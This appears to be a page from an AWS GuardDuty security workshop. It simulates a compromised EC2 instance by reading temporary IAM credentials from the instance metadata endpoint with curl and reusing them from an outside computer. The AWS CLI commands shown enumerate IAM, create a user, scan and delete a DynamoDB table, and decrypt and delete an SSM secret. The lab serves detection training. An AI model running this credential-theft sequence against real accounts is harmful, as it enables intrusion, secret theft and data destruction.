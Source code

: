 ```yaml
---
title : "Creating Findings"
date : "`r Sys.Date()`"
weight : 1
chapter : false
pre : " <b> 6.1 </b> "
---
```


**Generate Findings Manually**

Mock Attacks and Findings will be automatically generated from the CloudFormation Template, except for a Finding. For this Finding, you will need to do some specific steps like:
1. Copy the temporary IAM security credential from the EC2 instance.
2. Manually make an API call from a personal computer.

> To generate this Finding, we must make an API call coming from outside of the AWS network.

**Content**
- [Get a temporary IAM security credential with the Systems Manager](#get-a-temporary-iam-security-credential-with-the-systems-manager)
- [Create AWS CLI Profile on PC](#create-aws-cli-profile-on-pc)
- [Execute AWS CLI statements using IAM security credential temporarily](#execute-aws-cli-statements-using-iam-security-credential-temporarily)

#### Get a temporary IAM security credential with the Systems Manager

To simulate this final attack, you need to successfully retrieve the temporary IAM security credential generated by the IAM role on the EC2 instance. We can try 1 of 2 ways:
1. SSH access to the EC2 instance and query the **Metadata** data of the EC2 instance.
2. Use the **Session Manager** functionality of the AWS System Manager service.
   1. Access the System Manager Console at **us-west-2**.
   2. In the left-hand navigation bar, select **Fleet Manager**, and we will see a *managed EC2 instance* with the following name format - `GuardDuty-Example: Compromised Instance: Scenario 3` with status * *SSM Agent ping status** is `Online`.

![6-system-manager-fleet-manager](/images/6-system-manager-fleet-manager.png?featherlight=false&width=90pc)

   3. Proceed to use the **Session Manager** function by pressing the `Instance actions` button and selecting `Start Session`.

![system-manager-fleet-manager-start-session](/images/6-system-manager-fleet-manager-start-session.png?featherlight=false&width=90pc)

   4. Execute data query **Metadata**:

   ```bash
   curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GuardDuty-Example-EC2-Compromised
   ```

3. Take note of some important information below
   1. **Access Key ID**
   2. **Secret Access Key**
   3. **Session Token**

![system-manager-instance-session-start](/images/6-system-manager-instance-session-start.png?featherlight=false&width=90pc)

#### Create AWS CLI Profile on PC

After successfully accessing the temporary IAM security credential, we will proceed to create an **AWS CLI Profile** on the personal computer. From Terminal/CMD/PowerShell, we proceed to replace the `<PLACEHOLDER>` with the specific value we have collected, then enter the following commands:

```bash
aws configure set profile.badbob.region us-west-2
aws configure set profile.badbob.aws_access_key_id <ACCESS_KEY_ID>
aws configure set profile.badbob.aws_secret_access_key <SECRET_ACCESS_KEY>
aws configure set profile.badbob.aws_session_token <SESSION_TOKEN>
```

> We can check if Profile has been created by going to [where **AWS security credentials**](https://docs.aws.amazon.com/cli/latest/userguide) /cli-configure-files.html#cli-configure-files-where).

We can use the following command to perform a quick check to see if there is an **AWS CLI Profile** named `badbob`.

```bash
aws configure --profile badbob
```

![aws-cli-configure-profile](/images/6-aws-cli-configure-profile.png?featherlight=false&width=90pc)

#### Execute AWS CLI statements using IAM security credential temporarily
Using the **AWS CLI** statements below, we make API calls to various AWS services.

---
**IAM user has any permissions?**

```bash
aws iam get-user --profile badbob
aws iam create-user --user-name Chuck --profile badbob
```

---
**Is there access to DynamoDB?**

```bash
aws dynamodb list-tables --profile badbob
aws dynamodb describe-table --table-name GuardDuty-Example-Customer-DB --profile badbob
```

---
**Is there permission to query data to DynamoDB?**

```bash
aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile badbob
aws dynamodb put-item --table-name GuardDuty-Example-Customer-DB --item '{"name":{"S":"Joshua Tree"},"state":{"S":"Michigan"} ,"website":{"S":"https://www.nps.gov/yell/index.htm"}}' --profile badbob
aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile badbob
aws dynamodb delete-table --table-name GuardDuty-Example-Customer-DB --profile badbob
aws dynamodb list-tables --profile badbob
```

---
**Is it possible to access the System Manager Parameter Store?**

```bash
aws ssm describe-parameters --profile badbob
aws ssm get-parameters --names "gd_prod_dbpwd_sample" --profile badbob
aws ssm get-parameters --names "gd_prod_dbpwd_sample" --with-decryption --profile badbob
aws ssm delete-parameter --name "gd_prod_dbpwd_sample" --profile badbob
```